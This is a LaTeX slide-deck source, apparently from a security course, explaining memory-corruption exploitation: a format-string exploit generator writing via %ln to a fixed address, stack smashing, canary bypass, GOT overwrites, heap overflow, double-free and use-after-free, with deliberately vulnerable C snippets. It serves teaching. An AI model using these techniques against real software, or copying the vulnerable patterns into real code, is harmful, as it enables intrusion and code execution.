    language=C,
    style=smaller,
}
\begin{lstlisting}
    /* advance through 5 registers, then
     * 5 * 8 = 40 bytes down stack, outputting
     * 4916157 + 9 characters before using 
     * %ln to store a long.
     */
    fputs("%c%c%c%c%c%c%c%c%c%.4196157u%ln", stdout);
    /* include 5 bytes of padding to make current location
     * in buffer match where on the stack printf will be reading.
     */
    fputs("?????", stdout);
    void *ptr = (void*) 0x601038;
    /* write pointer value, which will include \0s */
    fwrite(&ptr, 1, sizeof(ptr), stdout);
    fputs("\n", stdout);
\end{lstlisting}
\end{frame}

\section{Stack Smashing Review}
\begin{frame}<1>[label=trickySS]{stack smashing: the tricky parts}
    \begin{itemize}
    \item \myemph<2>{construct machine code that works in any executable}
        \begin{itemize}
        \item same tricks as writing relocatable virus code
        \item usual idea: just execute shell (command prompt)
        \end{itemize}
    \item \myemph<3>{construct machine code that's valid input}
        \begin{itemize}
        \item machine code usually flexible enough
        \end{itemize}
    \item \myemph<4>{finding location of return address}
        \begin{itemize}
        \item fixed offset from buffer
        \end{itemize}
    \item \myemph<5>{finding location of inserted machine code}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=guessedReturnToStack]{guessed return-to-stack}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    xscale=1.3,
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ \fontsize{10}{11}\selectfont\tt\bfseries\color{red}70 fd ff ff  ff ff 00 00 (0x7fff ffff fd70)};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (20 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\draw[onStack,fill=green!20,opacity=0.9] (0, -5.25) rectangle (10, -3) node[midway,align=center,font=\small] {nops (was part of buffer)};
\draw[onStack,fill=red!20,opacity=0.9] (0, -3) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {machine code (was buffer + unused)};

\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (7.4, -3.5);

\end{tikzpicture}
\end{frame}


\begin{frame}[label=overwriteLocalStack]{simpler overflow: stack}
\begin{tikzpicture}
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt giveQuiz}};
\draw[onStack,fill=green!20] (0, -1.25) rectangle (10, -1.75) node[midway,align=center,font=\small] {
    score (4 bytes): \only<1>{\tt 00 00 00 00}
    \only<2>{\color{red}\tt 61 61 61 00}
};
\draw[onStack,fill=blue!20] (0, -1.75) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt gets}};

\begin{visibleenv}<2>
\node[anchor=south west,font=\tt,red] at (0, -5.25) { aaaa\ldots };
\node[anchor=north east,font=\tt,red] at (10, -1.75) { \ldots aaaa};
\node[red] at (5, -3) {input: 103 {\tt a}'s ({\tt a} = {\tt 0x61})};
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=returnToStackCanary]{stack canary}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    xscale=1.3,
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\
     \only<1>{\fontsize{10}{11}\selectfont\tt\color{black}37 fd 40 00  00 00 00 00 (0x40fd37)}
     \only<2>{\fontsize{10}{11}\selectfont\tt\bfseries\color{red}70 fd ff ff  ff ff 00 00 (0x7fff ffff fd70)}};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -1.75) node[midway,align=center,font=\small] {canary: \only<1>{\tt b1 ab bd e8 31 15 df 31}\only<2>{\color{red}{\tt ?? ?? ?? ?? ?? ?? ??}}};
\draw[onStack,fill=black!20] (0, -1.75) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (12 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}

\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=skipCanary]{skipping the canary}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{scope}[xscale=1.2]
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt f2b} };
\draw[onStack,fill=red!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] (canaryAddr)
     {stack canary};
\draw[onStack,fill=green!20] (0, -2.25) rectangle (10, -2.75) node[midway,align=center,font=\small] (ptr) {ptr (8 bytes)};
\draw[onStack,fill=green!20] (0, -2.75) rectangle (10, -3.25) node[midway,align=center,font=\small] (val) {val (8 bytes)};
\draw[onStack,fill=blue!20] (0, -3.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2->
\draw[-Latex,orange,ultra thick] ([xshift=1cm]ptr.east) -- ++(2cm,0cm) |- (stackAddr.east);
\draw[-Latex,orange,ultra thick,dashed] ([xshift=1cm]val.east) -- ++(2cm,0cm) |- (0.25, -5);
\end{visibleenv}

\begin{visibleenv}<3>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}
\end{scope}

\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=pointerSub]{pointer subterfuge}
\lstset{
    language=C,
    style=small,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    morekeywords={size_t},
}
\begin{lstlisting}
void f2b(void *arg, size_t len) {
    char buffer[100];
    long val = ...; /* assume on stack */
    long *ptr = ...; /* assume on stack */
    memcpy(buff, arg, len); /* overwrite ptr? */
    ~2~*ptr = val~end~; /* arbitrary memory write! */
}
\end{lstlisting}
\imagecredit{adapted from Pincus and Baker, Figure 2}
% FIXME: stack picture
\end{frame}



\begin{frame}[fragile,label=gotOverwrite]{attacking the GOT}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt f2b} };
\draw[onStack,fill=red!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] (canaryAddr)
     {stack canary};
\draw[onStack,fill=green!20] (0, -2.25) rectangle (10, -2.75) node[midway,align=center,font=\small] (ptr) {ptr (8 bytes)};
\draw[onStack,fill=green!20] (0, -2.75) rectangle (10, -3.25) node[midway,align=center,font=\small] (val) {val (8 bytes)};
\draw[onStack,fill=blue!20] (0, -3.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\node[anchor=south] at (13.5, -1) { global offset table };
\draw[stackBox] (11.5, -1) rectangle (15.25, -1.5) node[midway,font=\small] (printfEntry) {GOT entry: printf };
\draw[stackBox] (11.5, -1.5) rectangle (15.25, -2) node[midway,font=\small] {GOT entry: fopen };
\draw[stackBox] (11.5, -2) rectangle (15.25, -2.5) node[midway,font=\small] {GOT entry: exit };

\begin{visibleenv}<2->
\draw[-Latex,orange,ultra thick] ([xshift=1cm]ptr.east) -- ++(2cm,0cm) |- (printfEntry.west);
\draw[-Latex,orange,ultra thick,dashed] ([xshift=1cm]val.east) -- ++(2cm,0cm) |- (0.25, -5);
\end{visibleenv}

\begin{visibleenv}<3>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]printfEntry.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}


\begin{frame}<1>[label=inheritMemLay]{C++ inheritence: memory layout}
\begin{tikzpicture}
    \tikzset{
        vt/.style={fill=blue!30},
    }
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},
            label={north:InputStream},anchor=north west] (inputStream)  at (0, 0) {
        |[vt]| vtable pointer \\
    };
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},
            label={north:SeekableInputStream},anchor=north west] (seekableStream) at (4.5, 0) {
        |[vt]| vtable pointer \\
    };
    \matrix[tight matrix,nodes={text width=6cm,text depth=.1ex,font=\small\tt},
            label={north:FileInputStream},anchor=north west] (fileStream) at (9, 0) {
        |[vt]| vtable pointer \\
        file\_pointer \\
    };
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},anchor=north west] (isVT) at (0, -2) {
        \tt slot for get\\
    };
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},anchor=north west] (seekVT) at (4.5, -2){
        \tt slot for get \\
        \tt slot for seek \\
        \tt slot for tell \\
    };
    \matrix[tight matrix,nodes={text width=6cm,text depth=.1ex,font=\small\tt},anchor=north west] (fileVT) at (9, -2){
        FileInputStream::get \\
        FileinputStream::seek \\
        FileInputStream::tell \\
    };
    \draw[thick,-Latex] (inputStream-1-1.east) -- ++(.35cm,0cm) |- (isVT-1-1.east);
    \draw[thick,-Latex] (seekableStream-1-1.east) -- ++(.35cm,0cm) |- (seekVT-1-1.east);
    \draw[thick,-Latex] (fileStream-1-1.east) -- ++(.35cm,0cm) |- (fileVT-1-1.east);
\end{tikzpicture}
\end{frame}

\begin{frame}<1>[fragile,label=target]{NTP exploit picture}
\lstset{
    language=C,
    style=small,
    moredelim={**[is][\btHL<1|handout:0>]{~1~}{~end~}},
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{lstlisting}
    memmove((char *)~1~datapt~end~, dp, (unsigned)dlen);
\end{lstlisting}
\begin{tikzpicture}
\tikzset{box/.style={thick}}
\draw[box,fill=blue!20] (0, 0) rectangle (10, -0.5) node[midway] (datapt) {datapt (global variable)};
\draw[box,fill=green!20] (0, -0.5) rectangle (10, -1.5) node[midway] {(other global variables)};
\draw[box,fill=red!20] (0, -1.5) rectangle (10, -2.5) node[midway] (buffer) {buffer (global array)};
\begin{visibleenv}<1-2>
    \draw[very thick,violet!70!black,-Latex] (datapt.west) -- ++(-.5cm,0cm) -| (0.5, -1.75);
\end{visibleenv}
\begin{visibleenv}<2->
    \draw[box,fill=orange!20] (11, -1) rectangle (15, -1.5) node[midway] (strlen) {strlen GOT entry};
\end{visibleenv}
\begin{visibleenv}<3->
    \fill[pattern=north west lines,pattern color=red,opacity=0.4] (0, -2.5) rectangle (10, 0);
    \draw[-Latex,very thick,dashed,red] (datapt) -| ([xshift=-0.5cm]strlen.west) -- (strlen.west);
\end{visibleenv}
\begin{visibleenv}<4->
    \draw[box,fill=violet!20] (11, -3) rectangle (15, -3.5) node[midway] (system) {{\tt system()} stub};
    \fill[pattern=north west lines,pattern color=red,opacity=0.4] (11, -1) rectangle (15, -1.5);
    \draw[-Latex,very thick,dashed,red] (strlen.south) -- (system.north);
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}{vulnerable stack layout}
\begin{tikzpicture}
\tikzset{
    hideAfterOverflow/.style={alt=<1-3>{}{opacity=0.25}}
}
\draw[stackBox] (0, 0) rectangle (8, -6);
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\draw[onStack,hideAfterOverflow] (0, -.75) rectangle (8, -1.25) node[midway,align=center,font=\small] (retFoo)
    { return address for {\tt other} };
\draw[onStack,frameOne,hideAfterOverflow] (0, -1.25) rectangle (8, -1.75) node[midway,align=center,font=\small] (saveFoo)
    { saved {\tt \%rbp} };
\draw[onStack,frameOne] (0, -1.75) rectangle (8, -3.00) node[midway,align=center,font=\small] (localFoo)
    { local variables in {\tt other} };
\draw[Latex-,very thick,markLine,hideAfterOverflow] (8, -1.75) -- ++(.5cm,0cm) node[right] (fooRbp) {{\tt \%rbp} ({\tt other})};
\draw[Latex-,very thick,markLine] (8, -3.00) -- ++(.5cm,0cm) node[right] {{\tt \%rsp} ({\tt other})};
\draw[onStack] (0, -3.00) rectangle (8, -3.50) node[midway,align=center,font=\small] (retBar)
    { return address for {\tt vulnerable} };
\draw[onStack,frameTwo] (0, -3.50) rectangle (8, -4.00) node[midway,align=center,font=\small] (saveBar)
    { saved {\tt \%rbp } };
\draw[onStack,frameTwo] (0, -4.00) rectangle (8, -5.50) node[midway,align=center,font=\small] (localBar)
    { {\tt buffer} };
\draw[Latex-,very thick,markLine] (8, -4.00) -- ++(.5cm,0cm) node[right] (barRbp) {{\tt \%rbp} ({\tt vulnerable})};
\draw[Latex-,very thick,markLine] (8, -5.50) -- ++(.5cm,-.25cm) node[right] {{\tt \%rsp} ({\tt vulnerable})};

\begin{visibleenv}<1-2>
    \draw[-Latex,ultra thick,dashed,hiLine] (saveBar.east) -- ++(1cm,0cm) -| ([xshift=1cm]fooRbp.east) -- (fooRbp.east);
\end{visibleenv}
\begin{visibleenv}<2->
    \fill[pattern=north west lines,pattern color=black] (0, -4) rectangle (8, -5.5);
    \fill[pattern=north west lines,pattern color=black] (7, -3.5) rectangle (8, -5);
\end{visibleenv}
\begin{visibleenv}<3>
    \draw[-Latex,ultra thick,dashed,hiLine] (saveBar.east) -| ([xshift=.25cm]barRbp.east) |- (8, -5.2);
\end{visibleenv}
\begin{visibleenv}<4->
    \draw[Latex-,very thick,markLineB] (8, -5.2) -- ++(.5cm,0cm) node[right] (fooRbpNew) {{\tt \%rbp} ({\tt other})};
    \draw[onStack,fill=white,draw=red!90!black,ultra thick] (0, -4.2) rectangle (8, -4.7) node[midway,align=center,font=\small] (retFooNew)
    { return address for {\tt other} };
    \draw[onStack,frameOne,draw=red!90!black,ultra thick] (0, -4.7) rectangle (8, -5.2) node[midway,align=center,font=\small] (saveFooNew)
    { saved {\tt \%rbp} };
    \draw[-Latex,ultra thick,dashed,hiLine] (saveBar.east) -| ([xshift=.25cm]barRbp.east) |- (fooRbpNew.east);
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=heapOverflowAdj]{heap overflow: adjacent allocations}
\begin{tikzpicture}
\lstset{language=C++,style=small}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
class V {
  char buffer[100];
public:
  virtual void ...;
  ...
};
...
V *first = new V(...);
V *second = new V(...);
strcpy(first->buffer,
       attacker_controlled);
\end{lstlisting}
};
\node[anchor=south] at (2, 0) {the heap};
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\draw[stackBox,fill=black!20] (0, 0) rectangle (4, -6);
\draw[onStack,fill=white] (0, -0.5) rectangle (4, -2.0) node[midway,font=\small] {\texttt{second}'s \texttt{buffer}};
\draw[onStack,fill=white] (0, -2.0) rectangle (4, -2.5) node[midway,font=\small] {\texttt{second}'s \textbf{vtable}};

\draw[onStack,fill=white] (0, -3.0) rectangle (4, -4.5) node[midway,font=\small] {\texttt{first}'s \texttt{buffer}};
\draw[onStack,fill=white] (0, -4.5) rectangle (4, -5.0) node[midway,font=\small] {\texttt{first}'s \textbf{vtable}};

\begin{visibleenv}<2>
    \fill[pattern=north west lines,pattern color=red!80] (0, -2.0) rectangle (4, -4.5);
    \node[anchor=west,font=\small,align=left] at (4.1, -3.25) {result of\\overflowing\\buffer};
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=vulnHeapSmash]{heap smashing}
\lstset{
    style=small,
    language=C,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
char *buffer = malloc(100);
... 
~2~strcpy(buffer, attacker_supplied);~end~
... 
free(buffer);
free(other_thing);
...
\end{lstlisting}
};

\tikzset{xscale=0.9}
\begin{scope}[overlay]
    \draw[stackBox,fill=black!20] (0, 1) rectangle (3, -7);

    \draw[onStack] (0, 1) rectangle (3, 0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -0.0) rectangle (3, -0.5) node[midway,font=\small] (freeANext) {next};
    \draw[onStack,fill=white] (0, -0.5) rectangle (3, -1.0) node[midway,font=\small] (freeAPrev) {prev};
    \draw[onStack,fill=white] (0, -1.0) rectangle (3, -1.5) node[midway,font=\small] (freeASize) {size/free};

    \draw[onStack,fill=blue!20] (0, -1.7) rectangle (3, -3.0) node[midway,font=\small,align=center] (freeBAlloc) {alloc'd object};
    \fill[pattern color=red,pattern=north west lines] (0, -0.0) rectangle (3, -3.0);
    \draw[onStack,fill=white] (0, -3.0) rectangle (3, -3.5) node[midway,font=\small] (freeBSize) {size/free};

    \draw[onStack] (0, -3.5) rectangle (3, -5.0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -5.0) rectangle (3, -5.5) node[midway,font=\small] (freeCNext) {next};
    \draw[onStack,fill=white] (0, -5.5) rectangle (3, -6.0) node[midway,font=\small] (freeCPrev) {prev};
    \draw[onStack,fill=white] (0, -6.0) rectangle (3, -6.5) node[midway,font=\small] (freeCSize) {size/free};
    
    \draw[-Latex,blue,thick] (freeAPrev) -- ++(1.75cm,0cm) -- ++ (0cm, -1cm) -- ++ (4cm,0cm); %|- (freeCSize);
    \draw[-Latex,blue,thick] (freeCNext) -- ++(2.00cm,0cm) -- ++ (0cm, 1cm) -- ++ (4cm,0cm); % |- (freeASize);
    \draw[-Latex,blue,thick,opacity=0.5] (freeCPrev) -- ++(1.25cm,0cm) -- ++(0cm,-2cm);
    \draw[-Latex,blue,thick,opacity=0.5] (freeANext) -- ++(1.75cm,0cm) -- ++(0cm,2cm);

    \begin{visibleenv}<2->
        \begin{scope}[xshift=-5cm,yshift=-3cm]
        \tikzset{gotBox/.style={thick,fill=orange!30}}
        \draw[gotBox] (0, -1) rectangle (4, -1.5) node[midway,font=\small] (freeEntry) {GOT entry: free};
        \draw[gotBox] (0, -1.5) rectangle (4, -2) node[midway,font=\small] {GOT entry: malloc };
        \draw[gotBox] (0, -2) rectangle (4, -2.5) node[midway,font=\small] (printfEntry) {GOT entry: printf };
        \draw[gotBox] (0, -2.5) rectangle (4, -3.0) node[midway,font=\small] {GOT entry: fopen };
        \end{scope}
        \draw[-Latex,red,ultra thick,dashed] (freeAPrev) -- ++(-2cm,0cm) |- ([yshift=-.25cm]printfEntry.east);
        \draw[-Latex,red,ultra thick,dashed] (freeANext) -- ++(-2.5cm,0cm) -- ++(0cm,-2.5cm) -- ++(-.5cm,0cm) node [black,solid,draw,left,align=left,fill=white] (scode) {shellcode\\(or \texttt{system()}?)};
    \end{visibleenv}
    \begin{visibleenv}<3->
        \begin{scope}[xshift=-5cm,yshift=-3cm]
        \draw[blue,opacity=0.8] (-2, -2) rectangle (0, -2.5) node[midway,font=\small] {size/free};
        \draw[blue,opacity=0.8] (-2, -1.5) rectangle (0, -2) node[midway,font=\small] {prev};
        \draw[blue,opacity=0.8] (-2, -1) rectangle (0, -1.5) node[midway,font=\small] {next};
        \end{scope}
        \draw[-Latex,blue,ultra thick,dotted] (freeEntry.north) -- ++(0cm,.1cm) -| (scode.south);
    \end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=dblFree]{double-frees}
\lstset{
    style=small,
    language=C,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
~2~free(thing);~end~
~2~free(thing);~end~
char *~2~p = malloc(...);~end~
// `p` points to next/prev
//     on list of avail.
//     blocks
strcpy(p, attacker_controlled);
malloc(...);
char *q = malloc(...);
// `q` points to attacker-
//     chosen address
strcpy(q, attacker_controlled2);
...
\end{lstlisting}
};

\tikzset{xscale=0.9}
\begin{scope}[overlay]
    \draw[stackBox,fill=black!20] (0, 1) rectangle (3, -7);

    \draw[onStack] (0, 1) rectangle (3, 0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -0.0) rectangle (3, -0.5) node[midway,font=\small] (freeANext) {next};
    \draw[onStack,fill=white] (0, -0.5) rectangle (3, -1.0) node[midway,font=\small] (freeAPrev) {prev};
    \draw[onStack,fill=white] (0, -1.0) rectangle (3, -1.5) node[midway,font=\small] (freeASize) {size};

    \draw[onStack,fill=blue!20] (0, -1.7) rectangle (3, -3.0) node[midway,font=\small,align=center] (freeBAlloc) {alloc'd object};
    \draw[onStack,fill=white] (0, -3.0) rectangle (3, -3.5) node[midway,font=\small] (freeBSize) {size};

    \draw[onStack,fill=yellow!20] (0, -3.5) rectangle (3, -6.0) node[midway,font=\small,align=center,yshift=.5cm] {alloc'd object\\
                \tt thing\only<2->{/p}};
    \begin{visibleenv}<2->
    \draw[onStack,fill=yellow!10,dashed] (0, -5.5) rectangle (3, -6.0) node[midway,font=\small] (freeCPrev) {prev};
    \draw[onStack,fill=yellow!10,dashed] (0, -5.0) rectangle (3, -5.5) node[midway,font=\small] (freeCNext) {next};
    \draw[-Latex,blue,thick,opacity=0.5] (freeCPrev) -- ++(1.75cm,0cm) -- ++(0cm,-2cm);
    \draw[-Latex,blue,thick,opacity=0.5] (freeCNext) -- ++(2.25cm,0cm) -- ++(0cm,2cm);
    \end{visibleenv}
    \draw[onStack,fill=white] (0, -6.0) rectangle (3, -6.5) node[midway,font=\small] (freeCSize) {size};
    
    \draw[-Latex,blue,thick,opacity=0.5] (freeAPrev) -- ++(1.75cm,0cm) -- ++(0cm,-2cm);
    \draw[-Latex,blue,thick,opacity=0.5] (freeANext) -- ++(2.25cm,0cm) -- ++(0cm,2cm);
\end{scope}
    \begin{visibleenv}<3>
        \node[draw=red, ultra thick, anchor=east,align=left,fill=white] at (-.5, -4) {
            malloc returns something \myemph{still on free list} \\
            because double-free made \myemph{loop} in linked list
        };
    \end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=dblFreeExpand]{double-free expansion}
\lstset{
    style=smaller,
    language=C,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
    moredelim={**[is][\btHL<5|handout:0>]{~5~}{~end~}},
    moredelim={**[is][\btHL<6|handout:0>]{~6~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
// free/delete 1:
~2~double_freed->next = first_free;~end~
~2~first_free = chunk;~end~
// free/delete 2:
~3~double_freed->next = first_free;~end~
~3~first_free = chunk~end~
// malloc/new 1:
~4~result1 = first_free;~end~
~4~first_free = first_free->next;~end~
// + overwrite:
~4~strcpy(result1, ...);~end~
// malloc/new 2:
~5~first_free = first_free->next;~end~
// malloc/new 3: 
result3 = first_free;
strcpy(result3, ...);
\end{lstlisting}
};
\draw[stackBox] (0,0) rectangle (5, -2);
\draw[onStack,fill=blue!20] (0,0) rectangle (5, -1) node[midway,font=\small] {next / double free'd object};
\draw[onStack] (0,-1) rectangle (5, -2) node[midway,font=\small] {size};
\draw[stackBox] (0, -4) rectangle (5, -5) node[midway,font=\small,align=center] {first\_free \\ (global)};
\draw[stackBox,dashed] (0.5, -2.5) rectangle (5.5, -3.5) node[midway,font=\small,align=center] {(original first free)};

\begin{visibleenv}<1>
\draw[-Latex,blue,thick] (0, -4.5) -- ++(-0.5cm,0cm) |- (0.5, -3);
\end{visibleenv}
\begin{visibleenv}<2-4>
\draw[-Latex,blue,thick] (0, -4.5) -- ++(-0.5cm,0cm) |- (0, -1.5);
\end{visibleenv}
\begin{visibleenv}<2>
\draw[-Latex,blue,thick] (5, -0.5) -- ++(1.5cm,0cm) |- (5.5, -3);
\end{visibleenv}

\begin{visibleenv}<3->
\draw[-Latex,blue,thick] (5, -0.5) -- ++(0.5cm,0cm) |- (5, -1.5);
\end{visibleenv}

\begin{visibleenv}<4->
\fill[pattern=north west lines,pattern color=red] (0, 0) rectangle (5, -1);
\draw[red,dashed,ultra thick,-Latex] (5,-0.5) -- ++(1cm, 0cm) |- (3, -5.5);
\draw[stackBox,fill=orange!30] (0, -5.25) rectangle (3, -6.25) node[midway,font=\small] {GOT entry: free};
\end{visibleenv}
\begin{visibleenv}<4->
\node[overlay,text=black,draw=red!80,thick,font=\small\tt,anchor=south] at (3, 0) { first/second malloc };
\end{visibleenv}

\begin{visibleenv}<5->
\draw[-Latex,blue,thick] (0, -4.5) -- ++(-1cm, 0cm) |- (0, -5.75);
\node[text=black,draw=red!80,thick,font=\small\tt,anchor=north west] at (3, -6) { third malloc };
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=vulnUAF]{use-after-free}
\lstset{
    language=C++,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
class Foo {
    ...
};
Foo *the_foo;
the_foo = new Foo;
...
delete the_foo;
...
something_else = new Bar(...);
the_foo->something();
\end{lstlisting}
};
\node[draw,anchor=north west,align=left] at (-3,0) {
    {\tt something\_else} likely where {\tt the\_foo} was
};
\begin{visibleenv}<2>
\draw[stackBox] (0, -2) rectangle (3, -5);
\draw[stackBox] (4, -2) rectangle (7, -5);
\draw[onStack,fill=blue!20] (0, -2) rectangle (3, -3) node[midway,align=center,font=\small] { vtable ptr (Foo) };
\draw[onStack,fill=blue!20] (0, -3) rectangle (3, -5) node[midway,align=center,font=\small] {data for Foo };
\draw[onStack,fill=yellow!20] (4, -2) rectangle (7, -3) node[midway,align=center,font=\small] { vtable ptr (Bar)? \\
                                                                                   other data? };
\draw[onStack,fill=yellow!20] (4, -3) rectangle (7, -5) node[midway,align=center,font=\small] { data for Bar  };
\end{visibleenv}
\end{tikzpicture}
\end{frame}


\begin{frame}[fragile,label=intOverflowEx]{integer overflow example}
\lstset{
    language=C,
    morekeywords=item,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
item *load_items(int len) {
  int total_size = ~2~len * sizeof(item);~end~
  if (total_size >= LIMIT) {
    return NULL;
  }
  item *items = malloc(total_size);
  for (int i = 0; i < len; ++i) {
    int failed = read_item(&items[i]);
    if (failed) {
      free(items);
      return NULL;
    }
  }
  return items;
}
\end{lstlisting}
};
\node[align=left,anchor=north west,font=\small] (t1) at (0,0) {
    {\tt len} = {\tt 0x4000 0001} \\
    {\tt sizeof(item)} = {\tt 0x10}
};
\node[align=left,anchor=north west,font=\small] (t2) at (t1.south west) {
    {\tt total\_size} = \\
    {\tt 0x\textcolor{red}{4} 0000 0010} \\
};
\end{tikzpicture}
\end{frame}

\begin{frame}<1>[fragile,label=aslr64]{program memory (x86-64 Linux; ASLR)}
\begin{tikzpicture}[remember picture]
\tikzset{
